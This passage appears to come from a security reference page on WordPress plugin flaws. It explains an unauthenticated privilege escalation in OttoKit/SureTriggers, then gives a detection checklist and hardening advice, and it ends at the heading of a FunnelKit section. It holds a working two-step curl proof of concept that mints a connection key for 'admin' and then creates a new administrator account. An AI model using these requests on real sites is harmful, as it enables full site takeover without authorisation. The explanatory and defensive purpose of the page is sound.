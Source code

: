 ## Unauthenticated privilege escalation via REST token/key minting on predictable identity (OttoKit/SureTriggers ≤ 1.0.82)

Some plugins expose REST endpoints that mint reusable “connection keys” or tokens without verifying the caller’s capabilities. If the route authenticates only on a guessable attribute (e.g., username) and does not bind the key to a user/session with capability checks, any unauthenticated attacker can mint a key and invoke privileged actions (admin account creation, plugin actions → RCE).

- Vulnerable route (example): sure-triggers/v1/connection/create-wp-connection
- Flaw: accepts a username, issues a connection key without current_user_can() or a strict permission_callback
- Impact: full takeover by chaining the minted key to internal privileged actions

PoC – mint a connection key and use it

```bash
# 1) Obtain key (unauthenticated). Exact payload varies per plugin
curl -s -X POST "https://victim.tld/wp-json/sure-triggers/v1/connection/create-wp-connection" \
  -H 'Content-Type: application/json' \
  --data '{"username":"admin"}'
# → {"key":"<conn_key>", ...}

# 2) Call privileged plugin action using the minted key (namespace/route vary per plugin)
curl -s -X POST "https://victim.tld/wp-json/sure-triggers/v1/users" \
  -H 'Content-Type: application/json' \
  -H 'X-Connection-Key: <conn_key>' \
  --data '{"username":"pwn","email":"p@t.ld","password":"p@ss","role":"administrator"}'
```

Why it’s exploitable
- Sensitive REST route protected only by low-entropy identity proof (username) or missing permission_callback
- No capability enforcement; minted key is accepted as a universal bypass

Detection checklist
- Grep plugin code for register_rest_route(..., [ 'permission_callback' => '__return_true' ])
- Any route that issues tokens/keys based on request-supplied identity (username/email) without tying to an authenticated user or capability
- Look for subsequent routes that accept the minted token/key without server-side capability checks

Hardening
- For any privileged REST route: require permission_callback that enforces current_user_can() for the required capability
- Do not mint long-lived keys from client-supplied identity; if needed, issue short-lived, user-bound tokens post-authentication and recheck capabilities on use
- Validate the caller’s user context (wp_set_current_user is not sufficient alone) and reject requests where !is_user_logged_in() || !current_user_can(<cap>)

---

## Nonce gate misuse → unauthenticated arbitrary plugin installation (FunnelKit Automations ≤ 3.5.3)
